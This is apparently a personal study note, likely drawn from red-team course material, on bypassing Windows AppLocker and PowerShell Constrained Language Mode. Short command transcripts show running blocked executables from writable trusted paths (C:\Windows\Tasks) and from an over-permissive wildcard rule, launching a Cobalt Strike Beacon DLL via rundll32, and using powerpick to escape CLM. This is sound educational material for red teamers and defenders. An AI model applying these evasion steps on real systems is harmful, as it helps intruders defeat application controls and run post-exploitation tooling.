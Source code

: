 ```yaml
---
creation date: September 26th 2022
last modified date: September 26th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[AppLocker Bypasses]]  
___

## Description:  

### AppLocker
AppLocker is Microsoft's application whitelisting technology that can restrict the executables, libraries and scripts that are permitted to run on a system. AppLocker rules are split into 5 categories - Executable, Windows Installer, Script, Packaged App and DLLs, and each category can have its own enforcement (enforced, audit only, none).

If an AppLocker category is enforced, then by default everything within that category is blocked. Rules can then be added to allow principals to execute files within that category based on a set of criteria. The rules themselves can be defined based on file attributes such as path, publisher or hash. AppLocker has a set of default allow rules such as, "allow everyone to execute anything within `C:\Windows\*`" - the theory being that everything in `C:\Windows` is trusted and safe to execute.

Specific deny rules can be used to override allow rules, which are commonly used to block ["LOLBAS's"](https://lolbas-project.github.io/).

Take [wmic](https://lolbas-project.github.io/lolbas/Binaries/Wmic/) as an example - even though it's a "trusted" native Windows utility, it can be used to execute "untrusted" code that would bypass AppLocker. So a deny rule for `wmic.exe` would supersede the allow rule mentioned above.

Trying to execute anything that is blocked by AppLocker looks like this:

```
C:\>test.exe
This program is blocked by group policy. For more information, contact your system administrator.
```

The difficulty of bypassing AppLocker depends on the robustness of the rules that have been implemented. The default rule sets are quite trivial to bypass in a number of ways:

1.  Executing untrusted code via trusts LOLBAS's.
2.  Finding writeable directories within "trusted" paths.
3.  By default, AppLocker is not even applied to Administrators.

It is of course common for system administrators to add custom rules to cater for particular software requirements. Badly written or overly permissive rules can open up loopholes that we can take advantage of.

Like LAPS, AppLocker creates a `Registry.pol` file in the `GpcFileSysPath` of the GPO which we can read with the `Parse-PolFile` cmdlet. This is one of the default rules.

```
KeyName     : Software\Policies\Microsoft\Windows\SrpV2\Exe\921cc481-6e17-4653-8f75-050b80acca20
ValueName   : Value
ValueType   : REG_SZ
ValueLength : 736
ValueData   : <FilePathRule Id="921cc481-6e17-4653-8f75-050b80acca20"
                Name="(Default Rule) All files located in the Program Files folder"
                Description="Allows members of the Everyone group to run applications that are located in the Program Files folder."
                UserOrGroupSid="S-1-1-0"
                Action="Allow">
                <Conditions>
                  <FilePathCondition Path="%PROGRAMFILES%\*"/>
                </Conditions>
              </FilePathRule>
```

AppLocker rules applied to a host can also be read from the local registry at `HKLM\Software\Policies\Microsoft\Windows\SrpV2`.

Interestingly, Cobalt Strike's `jump psexec[64]` still works against the default AppLocker rules, because it will upload a service binary into `C:\Windows`, which is a trusted location and thus allowed to execute.

Uploading into `C:\Windows` requires elevated privileges, but there are places like `C:\Windows\Tasks` that are writeable by standard users. These areas are useful in cases where you have access to a machine (e.g. in an assumed breach scenario), and need to break out of AppLocker to run post-ex tooling.

```
C:\Users\Administrator\Desktop>test.exe
This program is blocked by group policy. For more information, contact your system administrator.

C:\Users\Administrator\Desktop>move test.exe C:\Windows\Tasks
        1 file(s) moved.

C:\Users\Administrator\Desktop>C:\Windows\Tasks\test.exe
Bye-Bye AppLocker!
```

This is an example of an overly permissive rule.
```
KeyName     : Software\Policies\Microsoft\Windows\SrpV2\Exe\3470949d-4a86-4ec5-aa37-5ad7acd6a925
ValueName   : Value
ValueType   : REG_SZ
ValueLength : 482
ValueData   : <FilePathRule Id="3470949d-4a86-4ec5-aa37-5ad7acd6a925"
                Name="Packages"
                Description="Allow custom packages"
                UserOrGroupSid="S-1-1-0"
                Action="Allow">
                  <Conditions>
                    <FilePathCondition Path="%OSDRIVE%\*\Packages\*"/>
                  </Conditions>
                </FilePathRule>
```

The path `%OSDRIVE%\*\Packages\*` expands to `C:\*\Packages\*`, (assuming `C:\` is indeed the OS drive, which it almost always is) - this means we could create a folder called `Packages` anywhere on `C:\` and run exe's from it because of the wildcards.

```
C:\Users\Administrator\Desktop>test.exe
This program is blocked by group policy. For more information, contact your system administrator.

C:\Users\Administrator\Desktop>mkdir Packages

C:\Users\Administrator\Desktop>move test.exe Packages
        1 file(s) moved.

C:\Users\Administrator\Desktop>Packages\test.exe
Bye-Bye AppLocker!
```

DLL enforcement very rarely enabled due to the additional load it can put on a system, and the amount of testing required to ensure nothing will break.

Cobalt Strike can output Beacon to a DLL that can be run with **rundll32**.

```
C:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 8A6C-CD61

 Directory of C:\Users\Administrator\Desktop

05/17/2021  11:01 PM    <DIR>          .
05/17/2021  11:01 PM    <DIR>          ..
05/17/2021  10:59 PM           311,808 beacon.dll

C:\>C:\Windows\System32\rundll32.exe C:\Users\Administrator\Desktop\beacon.dll,StartW
```

```
beacon> link dc-1
[+] established link to child beacon: 10.10.15.75
```

If you have access to a Domain Controller or a machine with the appropriate packages installed, you can also enumerate the AppLocker configuration using the native GPO report commands - the `Get-GPOReport` cmdlet and `gpresult` utility.  The most convenient means of consuming the output is to save the report in HTML format, download it to your machine and open in a browser.


### PowerShell Constrained Language Mode

When AppLocker is enabled PowerShell is placed into Constrained Language Mode (CLM), which restricts it to core types. `$ExecutionContext.SessionState.LanguageMode` will show the language mode of the executing process.
```
beacon> remote-exec winrm dc-1 $ExecutionContext.SessionState.LanguageMode

PSComputerName RunspaceId                           Value              
-------------- ----------                           -----              
dc-1           9dd4aebc-540e-4683-b3f7-07b6f799266e ConstrainedLanguage
```

This makes most PowerShell tradecraft difficult. `jump winrm[64]` and other PowerShell scripts will fail with the error: **Cannot create type. Only core types are supported in this language mode.**

```
beacon> remote-exec winrm dc-1 [math]::Pow(2,10)

<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04"><S S="Error">Cannot invoke method. Method invocation is supported only on core types in this language mode._x000D__x000A_</S><S S="Error">
```

CLM is as fragile as AppLocker, so any AppLocker bypass can result in CLM bypass. Beacon has a `powerpick` command, which is an "unmanaged" implementation of tapping into a PowerShell runspace, without using `powershell.exe`.

So if we find an AppLocker bypass rule in order to execute a Beacon, `powerpick` can be used to execute post-ex tooling outside of CLM. `powerpick` is also compatible with `powershell-import`.

```

```





___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 26th 2022 (01:19 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
